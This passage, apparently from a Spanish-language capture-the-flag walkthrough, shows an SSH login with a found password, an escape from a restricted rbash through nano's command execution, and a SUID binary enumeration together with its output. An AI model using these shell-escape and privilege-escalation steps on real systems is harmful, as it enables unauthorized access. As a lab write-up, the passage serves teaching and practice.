 ### SSH

```shell
ssh daniel@<IP>
```

Metemos como contraseña `lionsarebigcats` y veremos que estamos dentro.

## Escalate user

Si intentamos hacer algun comando como movernos, leer algo o lo que sea veremos que tenemos una `rbash`, por lo que vamos a intentar escapar de ella.

```
-rbash: cd: restricted
```

Si probamos a utilizar el `nano` veremos que nos funciona, por lo que vamos a obtener una `shell` con `nano`.

```shell
nano

#Dentro del nano
^R^X
reset; bash 1>&0 2>&0
```

Y con esto ya obtendremos una `shell` mucho mejor y sin restricciones.

Si listamos los permisos `SUID` que tenemos en el sistema veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
134620     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
   131121     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   134473     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   134946     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
   131120     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   134948     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   131117     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   150226    156 -rwsr-xr-x   1 root     root       157192 Feb  2  2020 /usr/bin/sudo
   131118     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
   134626     64 -rwsrws---   1 root     peter       64744 Jan 10  2019 /usr/sbin/agetty
   132307     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   146938    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   268129     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```
